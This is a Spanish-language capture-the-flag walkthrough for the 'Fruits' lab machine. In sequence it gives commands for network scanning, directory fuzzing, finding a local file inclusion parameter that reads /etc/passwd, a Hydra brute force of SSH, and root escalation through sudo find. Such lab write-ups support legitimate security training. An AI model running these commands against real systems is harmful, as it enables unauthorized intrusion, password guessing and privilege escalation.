


# Fruits

[https://thehackerslabs.com/fruits/](https://thehackerslabs.com/fruits/)



```bash
sudo arp-scan -I eth0 --localnet 
```


```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.23
```


- Miramos el puerto 80 en el navegador web
    
    
    

- Miramos por si acaso encontramos alguna pista el código fuente.
    
    `CTRL+U`
    
    
    
    No encontramos nada.
    
- Hacemos **Fuzzing Web** (descubrimiento de directorios y archivos) con **Gobuster** específicamente con archivos con extension php,thml y txt.
    
    ```bash
    gobuster dir -u http://10.0.3.23/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,txt
    ```
    
    
    

- Probamos el archivo fruits.php en el navegador
    
    
    
    No muestra nada
    

<aside>
💡

Pero al ser un archivo php carga desde el servidor por lo que podríamos agregarle parámetros para ver si nos devuelve algo. 

</aside>

- Vamos a ver si es vulnerable a un **Local File Inclusion (LFI)** pero para ello debemos conocer el parámetro y vamos a **usar WFUZZ. V**amos a intentar alguno que tenga acceso a la carpeta ****`/etc/passwd`.
    
    ```bash
    wfuzz -c -u http://10.0.3.23/fruits.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  
    ```
    
    
    
    Salen muchísimos falsos positivos por tanto vamos a filtrar por ejemplo por caracteres quitando que como vemos se repiten mucho lo de 1 carácter.
    

```bash
wfuzz -c -u http://10.0.3.23/fruits.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 1  
```


- Lo probamos en el navegador `?file=/etc/passwd`
    
    
    
    Nos encontramos dos posibles usuarios root y bananaman.
    
- Vamos a intentar hacer fuerza bruta con Hydra al SSH.
    
    ```bash
    hydra -l bananaman -P /usr/share/wordlists/rockyou.txt ssh://10.0.3.23 
    ```
    
    
    

- Nos conectamos por SSH con las credenciales optenidas
    
    ```bash
    ssh bananaman@10.0.3.23
    ```
    
    
    

- Probamos escalada de privilegios con `sudo -l`.
    
    `sudo -l`
    
    
    

- Investigamos el comando find con sudo en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/)
    
    
    
    `sudo find . -exec /bin/sh \; -quit`
    
    
    

- Ejecutamos `bash -p` para  **mantener los privilegios elevados** si el shell se inició con permisos de administrador o de otro usuario. Normalmente, Bash puede reducir esos privilegios por seguridad, pero con `-p` evita hacerlo.
    
    `bash -p`
    
    
  